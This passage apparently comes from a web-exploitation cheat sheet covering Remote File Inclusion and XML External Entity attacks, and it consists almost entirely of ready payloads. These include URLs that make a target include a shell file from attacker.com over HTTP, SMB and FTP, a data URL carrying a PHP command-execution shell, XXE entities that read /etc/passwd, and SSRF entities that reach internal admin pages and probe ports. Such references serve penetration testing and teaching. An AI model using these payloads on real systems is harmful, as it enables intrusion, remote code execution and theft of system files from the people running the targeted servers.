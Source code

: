 ### Remote File Inclusion (RFI)

#### RFI Exploitation

```
# Basic RFI
http://target.com/page.php?file=http://attacker.com/shell.txt

# With null byte
http://target.com/page.php?file=http://attacker.com/shell.txt%00

# SMB share (Windows)
http://target.com/page.php?file=\\attacker.com\share\shell.txt

# FTP
http://target.com/page.php?file=ftp://attacker.com/shell.txt

# Data URL
http://target.com/page.php?file=data://text/plain,<?php system($_GET['cmd']); ?>
```

---

## XML Attacks

### XXE (XML External Entity) Injection

#### File Disclosure

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>

<!-- PHP wrapper in XXE -->
<!DOCTYPE data [
  <!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
]>
<data>&file;</data>
```

#### SSRF via XXE

```xml
<!DOCTYPE data [
  <!ENTITY ssrf SYSTEM "http://internal-server:8080/admin">
]>
<data>&ssrf;</data>

<!-- Port scanning -->
<!DOCTYPE data [
  <!ENTITY port SYSTEM "http://localhost:22">
]>
<data>&port;</data>
```
